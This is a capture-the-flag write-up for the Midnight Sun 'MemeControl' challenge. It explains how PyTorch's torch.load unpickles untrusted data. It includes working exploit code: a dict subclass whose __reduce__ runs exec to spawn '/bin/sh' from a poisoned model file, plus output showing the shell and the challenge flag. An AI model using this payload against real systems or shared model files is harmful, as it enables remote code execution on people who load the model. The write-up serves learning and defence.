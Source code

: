 # MemeControl
#### Category: pwn

Description:
> Author: hfs
> TODO:
>
>
> flag: midnight{backd00r5_ar3_c00l_wh3n_th3Y_ar3_yoUR5}

**Tags:** Python, PyTorch, Pickle Deserialization, Midnight Sun CTF

## Takeaways

Importing/Loading wild ML models can result in arbitrary code execution.

## Challenge

In this challenge we are given a piece of python code that expects a base64 encoded ML model, loads it and evaluates it. The evaluation in itself is not that interesting but PyTorch is well known to be insecure when loading a model from the wilderness.

As stated in the [documentation](https://pytorch.org/docs/stable/generated/torch.load.html#torch.load):


> **Warning**:
> `torch.load()` unless *weights_only* parameter is set to *True*, uses `pickle module` implicitly, which is known to be insecure. It is possible to construct malicious pickle data which will execute arbitrary code during unpickling. Never load data that could have come from an untrusted source in an unsafe mode, or that could have been tampered with. **Only load data you trust**

We can immediately recognize that the program is vulnerable to such an attack. In order to get remote code execution we just need to pop a shell during the unpickling. Perhaps by crafting it so that it executes `os.system('/bin/sh')`.

```python
import io
import torch
import base64

banner = \
'''
8""8""8                   8""""8                                      
8  8  8 eeee eeeeeee eeee 8    " eeeee eeeee eeeee eeeee  eeeee e     
8e 8  8 8    8  8  8 8    8e     8  88 8   8   8   8   8  8  88 8     
88 8  8 8eee 8e 8  8 8eee 88     8   8 8e  8   8e  8eee8e 8   8 8e    
88 8  8 88   88 8  8 88   88   e 8   8 88  8   88  88   8 8   8 88    
88 8  8 88ee 88 8  8 88ee 88eee8 8eee8 88  8   88  88   8 8eee8 88eee 
'''

try: 
    print(banner)
    base64_string = input("Send the base64 encoded model: ")
    bytes_data = base64.b64decode(base64_string)

    print("Evaluating the model ...")
    device = torch.device("cpu")
    model = torch.load(io.BytesIO(bytes_data), map_location=device)
    model.eval()
    print("Finished evaluating the model!")
except Exception as e:
    print(f"Ooops, this model is no good: {e}".format(e))
```

## Solution
Credits where they are due, we built our approach on the [patch-torch-save](https://github.com/yk/patch-torch-save) repo from `yk` that shows how to *poison* an existing model.

A model in itself is simply a dictionary, since we want to limit our payload as much as possible, and the actual usability of the model is of no concern, we define our model an plain dictionary. But an attacker could always use a legit large model. 

```python
super_ml_model: dict = {
    "Z":"T",
    "0":"T"
}
```

We define a `dict` subclass with a custom `__reduce__` function which will be called when the dict object will be pickled by `torch.save()`. 

`__reduce__` takes as a parameter a callable object that will be called to create the initial version of the object. In our case, we chose to simply use `exec` to execute any arbitrary code. Since there are no checks, our malicious code is as simple as it gets, the good ol' `os.system('/bin/sh')`.


```python
class BadDict(dict):

    def __init__(self, inject_src: str, **kwargs):
        super().__init__(**kwargs)
        self._inject_src = inject_src

    def __reduce__(self):
        return exec, (f'''{self._inject_src}''',), None, None, iter(self.items())

malicious_code = \
"""
import os
print("Hello from the other side! Popping a shell...")
os.system('/bin/sh')
"""

malicious_dict = BadDict(malicious_code, **super_ml_model)
torch.save(malicious_dict, "memecontrol.pth")
```

And we are all set! Now when the model will be unpickled by `torch.load()`, the malicious code will be executed. And we can simply cat the flag file.

```python
In [1]: import torch
In [2]: torch.load('./memecontrol.pth')
Hello from the other side! Popping a shell...
$ cat flag
midnight{backd00r5_ar3_c00l_wh3n_th3Y_ar3_yoUR5}
```

## Final Exploit
`exploit.py` uses pwntools to automate the exploit both locally and remotely. Assuming you have all the required packages you can test the exploit locally with:
```bash
$ python3 exploit.py LOCAL

[*] Exporting malicious model. Code to be executed:
    import os
    print("Hello from the other side! Popping a shell...")
    os.system('/bin/sh')
[+] Starting local process '/home/ctfbox/.pyenv/shims/python3': pid 39565
...
Send the base64 encoded model: 
[*] Pushing payload: UEsDBAAACAgAAAAAAAAAAAAAAAAAAAAA...
[+] Evaluating the model ...
    Hello from the other side! Popping a shell...
[*] Switching to interactive mode
$ cat flag
midnight{backd00r5_ar3_c00l_wh3n_th3Y_ar3_yoUR5}
```


